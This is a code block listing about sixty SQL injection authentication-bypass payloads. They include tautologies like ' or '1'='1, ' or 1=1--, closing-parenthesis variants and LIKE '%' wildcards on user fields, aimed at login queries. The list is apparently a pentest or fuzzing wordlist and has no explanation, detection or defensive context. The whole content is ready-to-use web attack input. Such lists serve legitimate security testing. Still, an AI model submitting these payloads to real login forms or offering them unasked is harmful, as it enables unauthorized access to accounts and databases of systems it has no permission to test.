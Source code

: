 ```
' or '1'='1
' or '1'='1'--
' or '1'='1'/*
' or '1'='1'#
' or '1′='1
' or 1=1
' or 1=1 --
' or 1=1 –
' or 1=1--
' or 1=1;#
' or 1=1/*
' or 1=1#
' or 1=1–
') or '1'='1
') or '1'='1--
') or '1'='1'--
') or '1'='1'/*
') or '1'='1'#
') or ('1'='1
') or ('1'='1--
') or ('1'='1'--
') or ('1'='1'/*
') or ('1'='1'#
'or'1=1
'or'1=1′
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 –
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1–
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1′='1–
) or ('1′='1–
' or 1=1 LIMIT 1;#
'or 1=1 or ''='
"or 1=1 or ""="
' or 'a'='a
' or a=a--
' or a=a–
') or ('a'='a
" or "a"="a
") or ("a"="a
') or ('a'='a and hi") or ("a"="a
' or 'one'='one
' or 'one'='one–
' or uid like '%
' or uname like '%
' or userid like '%
' or user like '%
' or username like '%
```